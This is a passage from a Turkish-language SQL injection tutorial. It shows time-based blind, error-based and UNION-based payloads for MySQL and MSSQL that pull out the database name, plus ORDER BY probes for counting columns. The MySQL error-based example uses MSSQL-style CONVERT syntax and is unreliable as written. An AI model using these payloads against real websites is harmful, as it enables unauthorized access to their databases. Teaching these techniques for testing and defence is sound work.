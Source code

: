 Eğer sayfa 5 saniye gecikirse, doğru veritabanı adını bulmuş olursun.
Bu tür bir saldırı karakter-karakter de yapılabilir. Örneğin:
sql
```plaintext
' AND IF(SUBSTRING(database(),1,1) = 't', SLEEP(5), 0)-- -
```

Bu, veritabanı adının ilk harfi t ise sayfanın 5 saniye beklemesini sağlar.
MSSQL Örneği:
sql
```plaintext
' IF(DB_NAME() = 'test_db') WAITFOR DELAY '00:00:05'-- -
```

Bu teknik, MSSQL veritabanında da aynı şekilde çalışabilir.
🔧 Bu tür sorgularla her bir karakteri doğru tahmin etmek için bir döngü veya otomatikleştirilmiş bir araç kullanman faydalı olacaktır.

2️⃣ Error-Based SQL Injection (Hata Tabanlı SQL Enjeksiyonu)
Hata tabanlı SQL enjeksiyonu, hata mesajları döndüren sistemlerde veritabanı ismini ve diğer iç bilgileri elde etmek için kullanılır.
MySQL Error-Based SQL Injection:
Eğer bir veritabanı adı öğrenmek istiyorsan, aşağıdaki sorgu çalıştırılabilir:
sql
```plaintext
' AND 1=CONVERT(int, (SELECT DATABASE()))-- -
```
Bu sorgu, database() fonksiyonunu kullanarak mevcut veritabanı adını çıkarmaya çalışır. Eğer sistem MySQL kullanıyorsa, hata mesajı veritabanı adını içerir.
MSSQL Error-Based SQL Injection:
MSSQL veritabanında DB_NAME() fonksiyonunu kullanarak şu şekilde çalıştırabilirsin:
sql
```plaintext
' AND 1=CONVERT(int, (SELECT DB_NAME()))-- -
```
Sistem eğer hata mesajları döndürüyor ve veritabanı adı doğru şekilde yazıldıysa, mesajda veritabanı adını görmelisin.

3️⃣ Advanced UNION-based SQL Injection
UNION-based SQL enjeksiyonu, genellikle sayfalarda belirli veritabanı bilgilerini sızdırmak için kullanılır. Bu yöntem, sonuçları birleştiren SQL UNION komutunu kullanarak veritabanı adını döndürebilir.
Örnek:
sql
```sql
' UNION SELECT database(), NULL, NULL-- -
```
Eğer sistemde birden fazla sütun varsa, bu sorgu veritabanı adını gösterir ve diğer sütunlar NULL olur. Bu tür saldırılarda sütun sayısını anlamak için aşağıdaki sorguları deneyebilirsin:
sql
```plaintext
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
